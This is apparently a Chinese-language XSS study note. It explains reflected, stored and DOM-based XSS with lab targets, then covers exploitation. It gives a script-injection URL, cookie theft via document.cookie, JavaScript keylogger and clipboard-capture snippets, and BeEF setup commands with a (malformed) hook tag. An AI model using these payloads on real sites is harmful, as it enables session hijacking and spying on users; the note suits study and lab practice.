 跨站脚本XSS
=========================================

#### 背景

- 常见的Web 漏洞中，XSS（Cross-site Script，跨站脚本）漏洞无疑是最多见的。
- 根据 HackerOne 漏洞奖励平台发布的 The 2020 Hacker Report，XSS 漏洞类型占所有报告漏洞中的 23％，排名第一。
- 跨站脚本（Cross-site Script），按理应该简称为 CSS，但为了与层叠样式表（CSS）区分开，特意改为 XSS。

#### 原理

- 指的是网站对用户输入数据未做有效过滤，攻击者可以将恶意脚本注入网站页面中，达到执行恶意代码的目的。
- 攻击者只需要诱使受害者打开特定的网址，就可以在受害者的浏览器中执行被注入的恶意代码。
- 从而窃取用户身份，执行一些敏感操作，或是进行其他的危害行为。
	
#### 分类

- 通常XSS分为存储型和反射型，但还有一种比较特殊的DOM型XSS，它本身属于反射型 XSS。
- 因此，按3种类型划分：反射型、存储型、DOM型
1. 反射型
	- 反射型XSS又被称为非持久型跨站脚本，它是将攻击代码放在URL参数中，而不是存储到服务器，因此需要诱使用户点击才能触发攻击。
	`例如：https://www.xxx.com/?name=<script>alert('wahaha')</script>`
	- 靶场：DVWA
2. 存储型
	- 又被称为持久型跨站脚本。攻击者将恶意代码存储到服务器上，只要诱使受害者访问被插入恶意代码的页面即可触发。
	- 存储型 XSS 经常出现在一些可以发表评论的地方，如帖子、博客。
	- 存储型 XSS 的特点就是不需要在诱使用户访问的URL中包含攻击代码，因为它已经存储到了服务器中，只需要让用户访问包含输出攻击代码的页面即可
	- 靶场：DVWA
3. DOM型
	- 基于文档对象模型（Document Object Model，DOM，用于将Web页面与脚本语言链接起来的标准编程接口）的一种漏洞，它不经过服务端，而是通过URL传入参数去触发，因此也属于反射型 XSS。
	- 由于客户端的 JavaScript 可以访问浏览器页面中的 DOM 对象，因此它能够决定如何处理当前页面的 URL，比如获取 URL 中的相关数据进行处理，然后动态更新到页面上。这导致 DOM 型 XSS 的漏洞代码常位于网页的 JavaScript 代码中。
	- 靶场：Pikachu

#### XSS漏洞利用

- 介绍一些关于 XSS 漏洞利用的方法，避免停留在 XSS 只能弹框的思想层面
- XSS漏洞最为常见的两种攻击方式就是窃取Cookie劫持他人的会话、蠕虫攻击
1. 窃取Cookie
	- Cookie 是由服务器提供的存储在客户端的数据，允许 JavaScript 访问，常用于识别用户身份和保存会话等功能。如果 Web 应用程序存在 XSS 漏洞，那么攻击者通过注入恶意 JavaScript 脚本就可以窃取到 Cookie，进而以用户身份执行恶意操作。
	- 通过 document.cookie 就可以访问到 Cookie
	- 当一个网站存在 XSS 时，我们就可以通过执行 document.cookie 获取当前受害者的 cookie，前提是要先诱使受害者访问特定的 URL。
	- 网上也有很多开源的XSS平台用来接收 Cookie，在GitHub搜索就可以找到很多，大多数可以直接通过 Docker 快速安装。
2. 蠕虫攻击
	- XSS 蠕虫的实现正是得益于Ajax 技术的出现，而后者正是 Web2.0 的标志性技术。
	- Ajax（Asynchronous JavaScript and XML，异步 JavaScript 和 XML）是指一种创建交互式网页应用的网页开发技术。
	- 具体讲就是在我们浏览网页，做一些操作时，可以减少浏览器的一些页面重绘操作，避免出现页面抖动、闪现之类的不适体验。
	- Ajax 中的核心技术就是 XMLHttpRequest，它允许 JavaScript 脚本与服务器进行通信，在不刷新页面的情况下，向服务器发送请求或是接收服务器的响应数据。
3. 其他攻击方法
	- 键盘记录
	```
	keys = ""
	document.onkeypress = function(){
	  keys += String.fromCharCode(window.event.keyCode);
	}
	```
	- 在 Chrome 浏览器中使用代码截获剪贴板内容
	```
	document.addEventListener('paste', function (evt) {
	  clipdata = evt.clipboardData || window.clipboardData;
	  console.log(clipdata.getData('text/plain'));
	});
	```
	- 方法还有很多，可以参考XSS攻击框架 BeEF
	```
	$ git clone https://github.com/beefproject/beef
	$ cd beef
	$ sudo docker build -t beef .
	$ sudo docker run -p 3000:3000 -p 6789:6789 -p 61985:61985 -p 61986:61986 --name beef beef
	或者
	docker pull janes/beef
	docker run -itd --name xss --rm -p 3000:3000 janes/beef
	打开链接：http://127.0.0.1:3000/ui/panel/
	账号密码：beef/beef
	```
	- 在漏洞页面插入如下代码进行利用
	```
	<script>http://127.0.0.1:3000/hook.js</script>
	```
	受害者访问后，若利用成功的话，在BeEF管理页面（此处为http://ip:3000/ui/panel）就可以看到目标上线了。
	刚运行的时候，BeEF 会生成随机密码，账号为 beef；也可以修改 config.yaml 中的账号密码再运行